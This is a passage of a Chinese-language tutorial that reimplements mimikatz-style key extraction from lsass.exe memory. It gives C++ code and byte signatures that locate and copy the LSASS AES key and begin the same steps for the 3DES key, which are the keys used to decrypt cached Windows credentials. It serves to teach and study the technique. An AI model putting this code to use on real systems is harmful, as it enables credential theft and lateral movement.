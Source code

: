 这里得到了 lea 指令中的小端的32位整数偏移量 相对`lsasrv.dll`模块基址的偏移值`keySigOffset + sizeof keyAESSig`，然后读取出该偏移处的4字节数据，得到`aesOffset`，即为`hAesKey`相对下一条指令地址的偏移。

```cpp
// 从lsass进程的内存位置lsasrvBaseAddress + keySigOffset + sizeof keyAESSig + 4 + aesOffset 上读取8字节的数据
// .data:0000000180177F58 ?? ?? ?? ?? ?? ?? ?? ?? ?hAesKey@@3PEAXEA dq ?
// 所读取的8字节的数据是一个指向结构体 KIWI_BCRYPT_HANDLE_KEY 的指针
ReadFromLsass(lsasrvBaseAddress + keySigOffset + sizeof keyAESSig + 4 + aesOffset, &keyPointer, sizeof keyPointer);
wprintf(L"keyPointer = 0x%p\n", keyPointer);

// 从lsass进程的内存位置 keyPointer 读取出结构题的实际内容
ReadFromLsass(keyPointer, &hAesKey, sizeof(KIWI_BCRYPT_HANDLE_KEY));
```

根据`aesOffset`的值，计算出`hAesKey`在`lsass.exe`内存中的实际地址，然后读取出该地址处的8字节数据，得到一个指向结构体`KIWI_BCRYPT_HANDLE_KEY`的指针，最后从该指针处读取出实际的密钥内容：

```cpp
// 读取 KIWI_BCRYPT_HANDLE_KEY 结构体中类型为 PKIWI_BCRYPT_KEY81 的成员变量指针所指向的 KIWI_BCRYPT_KEY81 结构体
// AES DES 密钥均使用 KIWI_BCRYPT_KEY81 结构体包裹
ReadFromLsass(hAesKey.key, &extractedAesKey, sizeof(KIWI_BCRYPT_KEY81));

// KIWI_BCRYPT_KEY81 中 hardkey.data包含密钥字节内容， hardkey.cbSecret包含密钥的长度
memcpy(g_sekurlsa_AESKey, extractedAesKey.hardkey.data, extractedAesKey.hardkey.cbSecret);

wprintf(L"AES Key Located (len %d): ", extractedAesKey.hardkey.cbSecret);
HexdumpBytesPacked(extractedAesKey.hardkey.data, extractedAesKey.hardkey.cbSecret);
```

这里读取了`KIWI_BCRYPT_HANDLE_KEY`结构体中的`key`成员变量指针所指向的`KIWI_BCRYPT_KEY81`结构体，获取其中的密钥字节内容和长度，并将密钥内容存储到全局变量`g_sekurlsa_AESKey`中。


### 2.2 获取`h3DesKey`
获取`h3DesKey`的逻辑、步骤与获取`hAesKey`几乎一模一样，只是偏移不同。

定位与`h3DesKey`相关的 lea 指令：

![alt text](images/h3DesKey.png)

同样取 lea 指令和前几条指令的字节序列用于搜索 lea 指令相对`lsasrv.dll`模块基址的偏移：

```cpp
UCHAR key3DESSig[] = { 0x83, 0x64, 0x24, 0x30, 0x00,
					0x48, 0x8d, 0x45, 0xe0,
					0x44, 0x8b, 0x4d, 0xd4,
					0x48, 0x8d, 0x15 };

keySigOffset = SearchPattern(lsasrvBaseAddress, key3DESSig, sizeof key3DESSig);
wprintf(L"keySigOffset = 0x%x\n", keySigOffset);	// 0x56970 (0000000180056970 & 0xFFFFF)
if (keySigOffset == 0) return;

// 从lsass进程的内存位置lsasrvBaseAddress + keySigOffset + sizeof key3DESSig 上读取4字节的偏移
ReadFromLsass(lsasrvBaseAddress + keySigOffset + sizeof key3DESSig, &desOffset, sizeof desOffset);
wprintf(L"desOffset = 0x%x\n", desOffset);
```
